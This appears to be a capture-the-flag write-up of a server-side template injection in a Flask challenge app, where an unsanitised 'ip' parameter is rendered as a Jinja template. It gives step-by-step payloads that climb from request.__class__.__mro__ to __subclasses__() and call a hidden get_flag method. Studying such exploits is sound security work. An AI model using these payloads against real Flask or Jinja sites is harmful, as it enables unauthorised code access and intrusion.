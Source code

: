 
## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](../images/1.png)

2. Part that interests us is here:
```python
ip = request.args.get('ip') or None
if ip is None:
    .
    .
else:
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that unsaintized IP is passed directly to the HTML

4. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

### Step by step

- We can use `__class__` and `__mro__` to access parents of our main class:
```jinja
{{request.__class__.__mro__}}
```

![mro](../images/2.png)

- Now we need to get subclasses of root Object
```jinja
{{request.__class__.__mro__[11].__subclasses__()}}
```

![sub](../images/3.png)

- We have our Flag `(in my case it is 495th in array of subclasses)` class but we want to see it's methods:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].__dict__}}
```

![dict](../images/4.png)

- There it is! Now just access method `get_flag` directly:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].get_flag()}}
```

![flag](../images/5.png)
